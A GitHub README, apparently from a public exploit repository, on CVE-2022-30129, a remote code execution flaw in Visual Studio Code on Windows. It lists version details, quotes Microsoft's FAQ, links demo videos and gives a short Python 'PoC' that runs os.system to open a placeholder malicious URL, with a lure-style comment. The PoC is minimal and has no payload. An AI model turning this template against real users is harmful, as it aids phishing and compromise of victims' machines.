 ## [CVE-2022-30129](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-30129)

## [Vendor](https://code.visualstudio.com/)

- Platform `Windows 11`

![](https://github.com/nu11secur1ty/Windows11Exploits/blob/main/CVE-2022-30129/Docs/Screenshot%202022-06-14%20124821.png)

## Description - Visual Studio Code:
```
Visual Studio Code latest version - Remote Code Execution Vulnerability.
Version: 1.68.0 (user setup)
Commit: 4af164ea3a06f701fe3e89a2bcbb421d2026b68f
Date: 2022-06-08T11:44:16.822Z
Electron: 17.4.7
Chromium: 98.0.4758.141
Node.js: 16.13.0
V8: 9.8.177.13-electron.0
OS: Windows_NT x64 10.0.22000
```
The user would have to click on a specially crafted **URL** which may be a GIT repository or whatever URL, inside of the editor when he edits the code or just executed an already compiled malicious program, to be compromised by the attacker. The scenarios are different, it depends on the attacker and what he wants from the victim.

## Microsoft:

- FAQ:

```
According to the CVSS metric, user interaction is required (UI:R). What interaction would the user have to do?
The user would have to click on a specially crafted URL to be compromised by the attacker.
```

## Description - [Visual Studio:](https://docs.microsoft.com/en-us/visualstudio/get-started/tutorial-open-project-from-repo?view=vs-2022)

![](https://github.com/nu11secur1ty/Windows11Exploits/blob/main/CVE-2022-30129/Docs/Screenshot%202022-07-20%20201213.png)

## Proof and Exploit:
[href](https://streamable.com/w6m4go)

## Reproduce: 
[href](https://github.com/nu11secur1ty/vulnerability-url)

----------------------------------------------------------------------------------------------------------------------------------

## PoC

```python
#!/usr/bin/python
# Author: nu11seur1ty
# CVE CVE-2022-30129
import os

# The security encrypted link to the company!
os.system("explorer \"_Your_malicious_URL_here")


```

## Proof and Exploit:
[href](https://streamable.com/zk4i36)
